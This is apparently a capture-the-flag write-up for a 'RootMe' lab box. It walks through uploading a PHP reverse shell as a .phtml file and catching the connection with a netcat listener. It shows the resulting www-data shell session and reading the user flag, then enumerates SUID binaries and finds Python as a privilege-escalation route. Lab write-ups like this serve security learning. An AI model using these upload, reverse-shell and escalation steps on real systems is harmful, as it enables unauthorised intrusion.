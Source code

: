 ```
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

This was saved as shell.phtml and uploaded. Then, the page shows a link to the uploaded file.

After setting up a netcat listener on my kali box, `nc -lvnp 4444`, and clicking that link... we get a shell!

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.62.120] from (UNKNOWN) [10.10.229.101] 50930
bash: cannot set terminal process group (888): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ ls
ls
bindshell.php.pdf
php.html
php.phtml
www-data@rootme:/var/www/html/uploads$ whoami
whoami
www-data
```

We get the user.txt flag
```
bash-4.4$ find / -iname "user.txt" 2>/dev/null
find / -iname "user.txt" 2>/dev/null
/var/www/user.txt
bash-4.4$ cd /var/www
cd /var/www
bash-4.4$ cat user.txt
```
# Privilege Escalation

Next we can check with
`sudo -l` prompts for a password, which is no good.

However... Checking SUID bits finds Python!
```
bash-4.4$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
```